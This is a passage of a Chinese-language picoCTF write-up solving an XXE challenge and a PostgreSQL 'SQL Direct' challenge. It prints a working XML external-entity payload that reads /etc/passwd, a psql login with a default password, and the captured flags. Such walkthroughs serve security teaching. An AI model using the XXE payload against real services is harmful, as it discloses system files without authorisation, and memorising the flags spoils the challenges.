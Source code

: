 因為題目有說要讀取 `/etc/passwd`這個路徑，所以我們把封包修改一下變成下面這樣。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [

<!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<data>
	<ID>&ext;</ID>
</data>
```

把請求 Forward 之後，看到網頁上回傳的內容如下。

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/24/8/image_86556b71eb01e19bc33ffcf13bca4794.png)

就成功找到 Flag 啦。

```txt
picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```

# SQL Direct

這題要連接到 PostgreSQL 的資料庫，先打開 Kali。打開後輸入以下命令連接到資料庫，密碼為`postgres`。

```bash
psql -h saturn.picoctf.net -p 51152 -U postgres pico
```

-   `-h`代表 Host
-   `-p`代表 Port
-   `-U`代表 Username
-   `pico`代表資料庫名稱

連接到後可以先輸入`\d`查看 Tables。

```txt
pico=# \d
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)
```

可以看到有一個叫做`flags`的表，這邊直接用以下命令把資料查詢出來。

```postgresql
SELECT * FROM flags;
```

果然看到 Flag 了。

```txt
picoCTF{L3arN_S0m3_5qL_t0d4Y_73b0678f}
```
